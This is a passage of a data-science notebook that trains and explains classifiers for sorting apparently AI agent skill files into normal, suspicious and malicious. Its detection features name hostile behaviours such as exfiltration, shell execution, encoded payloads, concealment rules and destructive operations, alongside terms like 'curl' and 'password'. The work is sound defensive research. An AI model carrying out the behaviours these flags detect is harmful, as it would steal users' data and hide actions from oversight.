    stack_rows[stack_name] = {"CV macro F1": cv_f1, **evaluate(y_test, stack_preds[stack_name])}

# ---- compare with the single models (same test set) ----
single = results.loc[model_names, ["accuracy", "macro precision", "macro recall", "macro F1", "weighted F1"]].copy()
single.insert(0, "CV macro F1", cv_scores.reindex(model_names).astype(float))
stack_compare = pd.concat([single, pd.DataFrame(stack_rows).T[single.columns]]).astype(float)
display(stack_compare.sort_values("macro F1", ascending=False).round(4))
for stack_name in STACKS:
    print(f"==================== {stack_name}: {', '.join(STACKS[stack_name])} ====================")
    print(classification_report(y_test, stack_preds[stack_name], labels=LABELS, digits=3, zero_division=0))


Decision Tree  out-of-fold scores in  36.3s
KNN            out-of-fold scores in  33.7s
Naive Bayes    out-of-fold scores in  29.1s
Random Forest  out-of-fold scores in 232.8s
SVM            out-of-fold scores in  48.3s
XGBoost        out-of-fold scores in  95.3s


/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: divide by zero encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: overflow encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: invalid value encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: divide by zero encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: overflow encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: invalid value encountered in matmul
  ret = 

,CV macro F1,accuracy,macro precision,macro recall,macro F1,weighted F1
Stack (top 4),0.9693,0.9764,0.9700,0.9763,0.9730,0.9764
Stack (all 6),0.9692,0.9764,0.9700,0.9763,0.9730,0.9764
XGBoost,0.9678,0.9727,0.9670,0.9729,0.9698,0.9728
SVM,0.9152,0.9555,0.9477,0.9511,0.9494,0.9556
Random Forest,0.9211,0.9364,0.9298,0.9293,0.9291,0.9365
Decision Tree,0.8947,0.9036,0.8870,0.8938,0.8902,0.9040
Naive Bayes,0.6979,0.7464,0.7103,0.7088,0.6960,0.7521
KNN,0.6730,0.7591,0.7175,0.6708,0.6709,0.7431


==================== Stack (top 4): Decision Tree, SVM, Random Forest, XGBoost ====================
              precision    recall  f1-score   support

      normal      0.967     0.985     0.976       329
  suspicious      0.952     0.970     0.961       203
   malicious      0.991     0.974     0.982       568

    accuracy                          0.976      1100
   macro avg      0.970     0.976     0.973      1100
weighted avg      0.977     0.976     0.976      1100

==================== Stack (all 6): Decision Tree, Naive Bayes, SVM, KNN, Random Forest, XGBoost ====================
              precision    recall  f1-score   support

      normal      0.967     0.985     0.976       329
  suspicious      0.952     0.970     0.961       203
   malicious      0.991     0.974     0.982       568

    accuracy                          0.976      1100
   macro avg      0.970     0.976     0.973      1100
weighted avg      0.977     0.976     0.976      1100



In [24]:
# How much the level-1 model relies on each base model, per class it predicts.
# = sum of |coefficient| over that base model's 3 score columns (the inputs are standardised, so they are comparable),
#   shown as % of the class's total. A large share = that model's scores move this class's decision the most.
for stack_name, members in STACKS.items():
    lr = stack_models[stack_name].named_steps["logisticregression"]
    weights = pd.DataFrame(
        {cls: [np.abs(lr.coef_[k, 3 * i: 3 * i + 3]).sum() for i in range(len(members))]
         for k, cls in enumerate(lr.classes_)}, index=members)[LABELS]
    print(f"{stack_name}: share of the level-1 model's weight per base model (%)")
    display((weights / weights.sum() * 100).round(1))


Stack (top 4): share of the level-1 model's weight per base model (%)


,normal,suspicious,malicious
Decision Tree,10.5,11.5,3.5
SVM,33.9,33.7,47.0
Random Forest,11.6,10.0,12.8
XGBoost,44.0,44.7,36.7


Stack (all 6): share of the level-1 model's weight per base model (%)


,normal,suspicious,malicious
Decision Tree,9.9,10.9,3.0
Naive Bayes,4.5,6.3,3.7
SVM,32.9,29.1,44.6
KNN,1.3,0.7,1.5
Random Forest,10.1,10.4,11.8
XGBoost,41.4,42.6,35.4


## 7. Feature Importance

Which terms drive the predictions? Decision Tree and linear SVM expose this directly (Gini importance / coefficients); Section 7.2 measures it the same way for every model (permutation), 7.3 for groups of correlated features, and 7.5
explains the selected model with SHAP values.



106 of 5,009 features are used by the tree; the top 20 account for 89% of total importance.


In [23]:
dt  = final_models["Decision Tree"]
dt_terms = feature_names(dt)
imp = pd.Series(dt.named_steps["clf"].feature_importances_, index=dt_terms).sort_values(ascending=False)
top_dt = imp.head(20)[::-1]

fig, ax = plt.subplots(figsize=(7, 5.2))
ax.barh(top_dt.index, top_dt.values, color=SERIES[0], height=0.65) # type: ignore
ax.set_xlabel("Gini importance"); ax.grid(axis="y", visible=False)
ax.set_title("Decision Tree – top 20 features")
save(fig, "03_dt_importance")
print(f"{(imp > 0).sum()} of {len(imp):,} features are used by the tree; "
      f"the top 20 account for {imp.head(20).sum():.0%} of total importance.")



In [24]:
svm = final_models["SVM"]
svm_terms = feature_names(svm)
coef = svm.named_steps["clf"].coef_
classes = list(svm.named_steps["clf"].classes_)

fig, axes = plt.subplots(1, 3, figsize=(15, 4.8))
for ax, label in zip(axes, LABELS):
    w = coef[classes.index(label)]
    top = np.argsort(w)[-15:]
    ax.barh(svm_terms[top], w[top], color=CLASS_COLORS[label], height=0.65)
    ax.set_title(f"SVM – evidence for '{label}'"); ax.set_xlabel("coefficient")
    ax.grid(axis="y", visible=False)
fig.tight_layout()
save(fig, "04_svm_coefficients")



Random Forest: 4,624 of 5,009 features are used; the top 20 account for 19% of total importance.
Flags: has_concealment_rule 0.010 (rank 6), has_shell_exec 0.007 (rank 13), has_hidden_trigger 0.003 (rank 79), has_destructive_op 0.002 (rank 98), has_staged_payload 0.001 (rank 199), has_risky_setup_step 0.001 (rank 295), has_encoded_exec 0.001 (rank 334), has_exfiltration 0.000 (rank 367), has_self_protection 0.000 (rank 1356) 





XGBoost: 998 of 5,009 features are used; the top 20 account for 33% of total importance.
Flags: has_concealment_rule 0.011 (rank 16), has_hidden_trigger 0.004 (rank 41), has_exfiltration 0.004 (rank 51), has_destructive_op 0.003 (rank 81), has_shell_exec 0.002 (rank 86), has_risky_setup_step 0.001 (rank 207), has_encoded_exec 0.001 (rank 281), has_self_protection 0.000 (rank 675), has_staged_payload 0.000 (rank 2108) 



In [25]:
# Random Forest: Gini importance = how much each feature reduces impurity, averaged over all 300 trees (same measure
# as the Decision Tree above). XGBoost: "gain" importance = how much each feature improves the model's loss on average
# when a tree splits on it (XGBoost's own version of the same idea; it has no Gini). Both are measured on the
# training data and are normalised so all features sum to 1.
for name, color, fig_name, measure in [("Random Forest", SERIES[4], "03b_rf_importance", "Gini importance"),
                                       ("XGBoost",       SERIES[5], "03c_xgb_importance", "gain importance")]:
    if name not in final_models:
        print(f"{name} was not trained, skipped."); continue
    pipe = final_models[name]
    imp_m = pd.Series(pipe.named_steps["clf"].feature_importances_, index=feature_names(pipe)).sort_values(ascending=False)
    top = imp_m.head(20)[::-1]

    fig, ax = plt.subplots(figsize=(7, 5.2))
    ax.barh(top.index, top.values, color=color, height=0.65) # type: ignore
    ax.set_xlabel(measure); ax.grid(axis="y", visible=False)
    ax.set_title(f"{name} – top 20 features ({measure})")
    save(fig, fig_name)
    print(f"{name}: {(imp_m > 0).sum():,} of {len(imp_m):,} features are used; "
          f"the top 20 account for {imp_m.head(20).sum():.0%} of total importance.")
    flags = imp_m[[f for f in imp_m.index if f.startswith("[flag]")]]
    print("Flags:", ", ".join(f"{k.replace('[flag] ', '')} {v:.3f} (rank {imp_m.index.get_loc(k) + 1})"
                              for k, v in flags.items()), "\n")


### 7.1 Explaining a single prediction

For a linear SVM, each term's contribution to a class score is `tf-idf value × coefficient`.

Below: the terms that pushed one test skill towards its predicted label. This is the per-file explanation the web UI will display next to the classification.

In [26]:
def explain_svm(pipe, text, top_k=10):
    feats, clf = pipe.named_steps["features"], pipe.named_steps["clf"]
    x = sp.csr_matrix(feats.transform(text))      # text = one-row DataFrame (text + flags)
    pred = clf.predict(x)[0]
    w = clf.coef_[list(clf.classes_).index(pred)]
    idx = x.indices
    contrib = x.data * w[idx]
    order = np.argsort(contrib)[::-1][:top_k]
    terms = feature_names(pipe)
    return pred, pd.DataFrame({"term": terms[idx[order]], "contribution": contrib[order].round(4)})

mal_idx = np.where((y_test.values == "malicious") & (test_preds["SVM"] == "malicious"))[0]
if len(mal_idx):
    i = mal_idx[0]
    pred, expl = explain_svm(svm, X_test.iloc[[i]])
    print(f"Case {test_df.loc[i, 'id']}  true = {y_test.iloc[i]}  predicted = {pred}")
    display(expl)

Case case_05533  true = malicious  predicted = malicious


,term,contribution
0,agent browser,0.2843
1,click,0.1680
2,bash,0.0868
3,following,0.0792
4,page,0.0757
5,pass,0.0749
6,requests,0.0744
7,package,0.0738
8,password,0.0711
9,allowed tools,0.0705


### 7.2 Permutation importance

Same idea as Gini importance (one number per feature, bigger = more important), but measured differently:
**shuffle one feature across the test skills and see how much the test macro F1 drops.** If the score falls a lot,
the model relied on that feature; if it does not change, the model did not need it. It works the same way for any
model (unlike Gini importance, which only exists for trees), so it is computed here for the **Decision Tree, SVM, Random Forest and XGBoost**
and the charts can be compared directly. Naive Bayes and KNN are left out of 7.2 and 7.3 (they perform worst, and
KNN alone takes over an hour); they are still trained and evaluated in Sections 5 and 6. It is used only to explain the models; the best model is still chosen by
cross-validated macro F1 (Section 5).

Every feature (all TF-IDF terms + the flags) is tested, each shuffled 5 times and averaged.
*Note:* if two terms carry the same signal (e.g. `silently` and `silently run`), shuffling one leaves the other, so each
can look unimportant on its own.

In [27]:
PI_REPEATS = 5
# Models explained in 7.2 and 7.3. Naive Bayes and KNN are left out: they perform worst and KNN alone takes over an hour.
PI_MODELS = [m for m in ["Decision Tree", "SVM", "Random Forest", "XGBoost"] if m in final_models]
PI_COLORS = dict(zip(["Decision Tree", "SVM", "Random Forest", "XGBoost"], [SERIES[0], SERIES[1], SERIES[4], SERIES[5]]))


def permutation_scores(name):
    """Permutation importance of every feature for one fitted pipeline (drop in test macro F1)."""
    pipe = final_models[name]
    Xt = pipe.named_steps["features"].transform(X_test)
    Xt = Xt.toarray() if sp.issparse(Xt) else np.asarray(Xt)
    t0 = time.time()
    r = permutation_importance(pipe.named_steps["clf"], Xt, y_test, scoring="f1_macro",
                               n_repeats=PI_REPEATS, random_state=RANDOM_STATE, n_jobs=N_JOBS)
    print(f"{name}: {Xt.shape[1]:,} features in {time.time() - t0:.0f}s")
    return pd.Series(r.importances_mean, index=feature_names(pipe)).sort_values(ascending=False)


def plot_permutation(perm, name, color, fig_name):
    top = perm.head(20)[::-1]
    fig, ax = plt.subplots(figsize=(7, 5.2))
    ax.barh(top.index, top.values, color=color, height=0.65) # type: ignore
    ax.set_xlabel("permutation importance (drop in test macro F1)"); ax.grid(axis="y", visible=False)
    ax.set_title(f"{name} – top 20 features (permutation)")
    save(fig, fig_name)
    print(f"{(perm > 0.001).sum()} of {len(perm):,} features lower the score by more than 0.001 when shuffled.")
    flags = perm[[f for f in perm.index if f.startswith("[flag]")]]
    print("Flags:", ", ".join(f"{k.replace('[flag] ', '')} {v:.3f}" for k, v in flags.items()))

Decision Tree: 5,009 features in 67s




39 of 5,009 features lower the score by more than 0.001 when shuffled.
Flags: has_concealment_rule 0.062, has_shell_exec 0.007, has_exfiltration 0.000, has_encoded_exec 0.000, has_staged_payload 0.000, has_risky_setup_step 0.000, has_self_protection 0.000, has_hidden_trigger 0.000, has_destructive_op 0.000


In [28]:
perm_dt = permutation_scores("Decision Tree")
plot_permutation(perm_dt, "Decision Tree", PI_COLORS["Decision Tree"], "05_dt_permutation")

/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: divide by zero encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: overflow encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: invalid value encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: divide by zero encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: overflow encountered in matmul
  ret = a @ b
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/utils/extmath.py:203: RuntimeWarning: invalid value encountered in matmul
  ret = 

SVM: 5,009 features in 77s




167 of 5,009 features lower the score by more than 0.001 when shuffled.
Flags: has_concealment_rule 0.080, has_staged_payload 0.056, has_shell_exec 0.029, has_destructive_op 0.026, has_risky_setup_step 0.010, has_hidden_trigger 0.008, has_encoded_exec 0.006, has_exfiltration 0.002, has_self_protection 0.002


In [29]:
perm_svm = permutation_scores("SVM")
plot_permutation(perm_svm, "SVM", PI_COLORS["SVM"], "06_svm_permutation")

Random Forest: 5,009 features in 785s




23 of 5,009 features lower the score by more than 0.001 when shuffled.
Flags: has_concealment_rule 0.006, has_risky_setup_step 0.001, has_destructive_op 0.000, has_encoded_exec 0.000, has_exfiltration 0.000, has_staged_payload 0.000, has_self_protection 0.000, has_hidden_trigger -0.000, has_shell_exec -0.000


In [35]:
perm_rf = permutation_scores("Random Forest")
plot_permutation(perm_rf, "Random Forest", PI_COLORS["Random Forest"], "07_rf_permutation")

XGBoost: 5,009 features in 202s




37 of 5,009 features lower the score by more than 0.001 when shuffled.
Flags: has_concealment_rule 0.013, has_shell_exec 0.003, has_destructive_op 0.000, has_risky_setup_step 0.000, has_staged_payload 0.000, has_self_protection 0.000, has_encoded_exec 0.000, has_exfiltration 0.000, has_hidden_trigger -0.000


In [33]:
if "XGBoost" in PI_MODELS:
    perm_xgb = permutation_scores("XGBoost")
    plot_permutation(perm_xgb, "XGBoost", PI_COLORS["XGBoost"], "08_xgb_permutation")

**The models side by side:** the 10 most important features per model, and the score of each flag.
Random Forest permutation takes roughly 15–25 minutes (300 trees per prediction); XGBoost a few minutes.

In [36]:
perms = {"Decision Tree": perm_dt, "SVM": perm_svm, "Random Forest": perm_rf}
if "XGBoost" in PI_MODELS:
    perms["XGBoost"] = perm_xgb
top10 = pd.DataFrame({name: [f"{k}  ({v:.3f})" for k, v in p.head(10).items()] for name, p in perms.items()},
                     index=range(1, 11))
display(top10)
flag_names = ["[flag] " + f for f in FLAG_COLS]
flag_perm = pd.DataFrame({name: p.reindex(flag_names) for name, p in perms.items()})
flag_perm.index = FLAG_COLS
flag_perm.round(4)

,Decision Tree,SVM,Random Forest,XGBoost
1,python tok_script (0.203),[flag] has_concealment_rule (0.080),python tok_script (0.011),helper (0.023)
2,helper (0.128),[flag] has_staged_payload (0.056),[flag] has_concealment_rule (0.006),python tok_script (0.021)
3,bootstrap (0.085),[flag] has_shell_exec (0.029),curl (0.005),explain (0.014)
4,[flag] has_concealment_rule (0.062),[flag] has_destructive_op (0.026),paths (0.004),[flag] has_concealment_rule (0.013)
5,benchmark (0.049),[flag] has_risky_setup_step (0.010),temporary (0.003),curl (0.007)
6,run python (0.039),[flag] has_hidden_trigger (0.008),runtime (0.003),tok_ipaddr (0.004)
7,material (0.027),helper (0.006),explain (0.003),run python (0.004)
8,skill (0.023),[flag] has_encoded_exec (0.006),inspect (0.003),[flag] has_shell_exec (0.003)
9,execute python (0.022),trusted (0.005),cache (0.002),bash python (0.003)
10,command (0.019),runtime (0.005),pre (0.002),initialization (0.002)


,Decision Tree,SVM,Random Forest,XGBoost
has_hidden_trigger,0.0000,0.0081,-0.0000,-0.0001
has_concealment_rule,0.0620,0.0801,0.0064,0.0134
has_self_protection,0.0000,0.0015,0.0000,0.0000
has_risky_setup_step,0.0000,0.0097,0.0006,0.0000
has_staged_payload,0.0000,0.0560,0.0000,0.0000
has_encoded_exec,0.0000,0.0058,0.0002,0.0000
has_shell_exec,0.0075,0.0292,-0.0002,0.0026
has_exfiltration,0.0000,0.0022,0.0000,0.0000
has_destructive_op,0.0000,0.0264,0.0005,0.0004


### 7.3 Permutation importance of correlated feature groups

**Why:** permutation importance shuffles one feature at a time. When several features carry the same information
(e.g. `silently`, `silently run`, `without asking`), shuffling one of them does little, because the model still has
the others. Each one then looks unimportant, even if together they matter a lot.

**What we do, step by step:**
1. **Measure how features go together (training set only).** For every pair of features we compute the correlation of
   *whether they appear* in a skill (1 = present, 0 = absent). A correlation of 1 means they always appear in the same
   skills; 0 means unrelated. The 4 flags are included.
2. **Group features that go together.** Hierarchical clustering (average linkage) joins features into a group when
   their average correlation is at least `CORR_THRESHOLD` (0.8). Features that do not correlate strongly with anything
   stay in a group of their own, so every feature is in exactly one group.
3. **Shuffle each group as one unit** on the test set (all members get the same shuffle) and measure the drop in test
   macro F1, exactly like Section 7.2, with 5 repeats, for the Decision Tree, SVM, Random Forest and XGBoost.

**How groups are named:** single features keep their own name. A group with 2+ members gets a short label that
describes what its members have in common (the `GROUP_LABELS` dictionary in the chart cell, written from the member
lists), followed by its size, e.g. *Encoded payload: base64 decode & execute (43 features)*. A group without a label
is shown by its 3 most frequent members. The full member list of each top group is printed under the chart.

In [37]:
from scipy.cluster.hierarchy import linkage, fcluster
from scipy.spatial.distance import squareform

CORR_THRESHOLD = 0.8      # features join a group when their average correlation is >= 0.8

ref_pipe = final_models["SVM"]
names = feature_names(ref_pipe)
for n in PI_MODELS:       # all pipelines use the same TF-IDF settings on the same data -> same feature list
    assert (feature_names(final_models[n]) == names).all()

# Step 1: correlation of feature presence (1/0) on the TRAINING set
B = (sp.csr_matrix(ref_pipe.named_steps["features"].transform(X_train)) > 0).astype(np.float64)
n_docs = B.shape[0]
p = np.asarray(B.mean(axis=0)).ravel()                       # share of skills containing each feature
co = (B.T @ B).toarray() / n_docs                            # share containing both features
std = np.sqrt(p * (1 - p))
with np.errstate(divide="ignore", invalid="ignore"):
    corr = (co - np.outer(p, p)) / np.outer(std, std)
corr = np.clip(np.nan_to_num(corr), -1.0, 1.0)
np.fill_diagonal(corr, 1.0)

# Step 2: hierarchical clustering on distance = 1 - |correlation|
dist = 1.0 - np.abs(corr)
dist = (dist + dist.T) / 2
np.clip(dist, 0.0, 1.0, out=dist)
np.fill_diagonal(dist, 0.0)
Z = linkage(squareform(dist, checks=False), method="average")
group_id = fcluster(Z, t=1 - CORR_THRESHOLD, criterion="distance")
del co, corr, dist

doc_freq = pd.Series(p, index=names)
groups = {}
for g in np.unique(group_id):
    idx = np.flatnonzero(group_id == g)
    idx = idx[np.argsort(-p[idx])]                           # most frequent member first
    groups[g] = idx
sizes = pd.Series({g: len(ix) for g, ix in groups.items()})
print(f"{len(names):,} features -> {len(groups):,} groups "
      f"({(sizes > 1).sum():,} groups with 2+ members; largest has {sizes.max()} members)")


def group_label(idx, k=3):
    head = ", ".join(names[idx[:k]])
    return head + (f" (+{len(idx) - k} more)" if len(idx) > k else "")

5,009 features -> 4,371 groups (176 groups with 2+ members; largest has 102 members)


In [ ]:
from joblib import Parallel, delayed

GROUP_REPEATS = {name: 5 for name in PI_MODELS}
N_CHUNKS = 40
group_list = list(groups.values())


def _group_drops(clf, Xc, y, base, chunk, n_repeats, seed):
    # chunk = list of (group number, column indices); every column of a group gets the SAME row shuffle
    out = []
    for gnum, cols in chunk:
        rng = np.random.default_rng(seed + gnum)
        sub = Xc[:, cols].toarray()
        if not sub.any():
            out.append(0.0); continue
        drops = []
        for _ in range(n_repeats):
            delta = sub[rng.permutation(sub.shape[0])] - sub
            r, c = np.nonzero(delta)
            D = sp.csc_matrix((delta[r, c], (r, cols[c])), shape=Xc.shape)
            drops.append(base - f1_score(y, clf.predict((Xc + D).tocsr()), average="macro"))
        out.append(float(np.mean(drops)))
    return out


group_tables = {}
for name in PI_MODELS:
    pipe = final_models[name]; clf = pipe.named_steps["clf"]
    Xc = sp.csc_matrix(pipe.named_steps["features"].transform(X_test))
    base = f1_score(y_test, clf.predict(Xc.tocsr()), average="macro")
    items = list(enumerate(group_list))
    chunks = [items[k::N_CHUNKS] for k in range(N_CHUNKS)]   # spread groups over the CPU cores
    t0 = time.time()
    res = Parallel(n_jobs=N_JOBS)(delayed(_group_drops)(clf, Xc, y_test, base, ch, GROUP_REPEATS[name], RANDOM_STATE)
                                  for ch in chunks)
